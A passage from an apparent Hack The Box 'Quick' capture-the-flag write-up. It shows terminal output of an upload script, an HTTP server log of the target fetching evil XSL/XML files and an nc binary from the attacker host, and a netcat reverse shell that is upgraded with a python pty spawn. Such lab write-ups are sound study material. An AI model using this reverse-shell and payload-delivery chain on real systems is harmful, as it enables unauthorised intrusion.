 ```text
zweilos@kali:~/htb/quick$ python3 auto-evil.py 
Login successful!

Ticket submitted: code - 200
Evil1 upload successful!

Ticket submitted: code - 200
Evil2 upload successful!

Ticket submitted: code - 200
Evil3 upload successful!

Check your nc listener...shell should be inbound!
```

Everything looked like it completed without errors...

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [15/Aug/2020 12:24:41] "GET /evil.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:42] "GET /evil.xml HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:42] "GET /nc HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:45] "GET /evil1.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:45] "GET /evil1.xml HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:47] "GET /evil2.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:47] "GET /evil2.xml HTTP/1.1" 200 -
```

All of my files were uploaded successfully...

```text
zweilos@kalimaa:~/htb/quick$ nc -lvnp 13371
listening on [any] 13371 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 39638
whoami && hostname
sam
quick
which python                   
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
sam@quick:~$ ^Z
[1]+  Stopped                 nc -lvnp 13371
zweilos@kali:~/htb/quick$ stty raw -echo
zweilos@kali:~/htb/quick$ nc -lvnp 13371

sam@quick:~$ export TERM=xterm-256color
```

And... I was in.  I received a limited shell at my waiting listener that I quickly upgraded to a fully interactive Bash shell using python.

## User.txt
